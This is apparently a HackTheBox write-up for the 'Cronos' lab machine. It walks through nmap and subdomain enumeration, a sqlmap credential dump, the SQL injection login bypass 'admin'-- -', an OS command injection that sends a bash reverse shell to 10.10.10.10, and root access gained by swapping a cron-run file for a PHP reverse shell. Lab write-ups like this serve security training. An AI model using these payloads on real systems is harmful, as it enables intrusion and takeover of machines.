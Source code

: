 ```yaml
---
cover: https://photos.squarezero.dev/file/abir-images/Cronos/logo.png
date: 2023-03-04 09:45:47+07:00
modified: 2023-03-04 09:45:47+07:00
categories: HackTheBox
machine_author:
  link: https://app.hackthebox.com/users/1
  name: ch4p
tags: [OS Command Injection, cronos, PHP, Web, DNS, Hackthebox, Writeup]
title: Cronos - HackTheBox
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/banner.png)



Cronos is a medium Linux machine that focuses mainly on different vectors for enumeration and also emphasises the risks associated with adding world-writable files to the root crontab. This machine also includes an introductory-level SQL injection vulnerability

### Difficulty:

`Medium`


# Enumeration

First I check for available open ports.

`nmap -sC -sV -A -oG beep beep.htb`

![](https://photos.squarezero.dev/file/abir-images/Cronos/1.png)

|Ports|Service
|22| ssh OpenSSH 7.2p2 (4Ubuntu2.1)
|53| DNS
|80| Apache httpd 2.4.18

Next, I did directory brute-forcing but nothing interesting showed up. 

As there is a DNS server running I did a subdomain brute-forcing.

![](https://photos.squarezero.dev/file/abir-images/Cronos/2.png)



# Foothold

Upon visiting the subdomain I found a login page.

![](https://photos.squarezero.dev/file/abir-images/Cronos/3.png)

I have intercepted the request and saved the request as file.

![](https://photos.squarezero.dev/file/abir-images/Cronos/4.png)

Now I used SQLMAP with the file to find credentials for the website.

`sqlmap -r sql.req --batch --dump --level 5 --risk 3`

![](https://photos.squarezero.dev/file/abir-images/Cronos/5.png)

I tried the login but that didn't work. So, I tried SQL injection with user admin.

Payload → `admin'-- -`

Now I got in and found traceroute/ping option.

![](https://photos.squarezero.dev/file/abir-images/Cronos/6.png)

This looks like an OS command injection vulnerability.
So I intercepted the request and used a bash reverse shell to make the server connect to me.

Payload → `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1';`

**Note: Make sure the payload is URL encoded.**

![](https://photos.squarezero.dev/file/abir-images/Cronos/7.png)

And we got a shell !!

![](https://photos.squarezero.dev/file/abir-images/Cronos/8.png)

# Privilege Escalation

After checking with Linpeas I found a cronjob running with root permission.

![](https://photos.squarezero.dev/file/abir-images/Cronos/9.png)

So I have replaced the file with PHP-reverse-shell and renamed it to artisan.

![](https://photos.squarezero.dev/file/abir-images/Cronos/10.png)

After the cronjob executed I got a reverse shell with Root !! 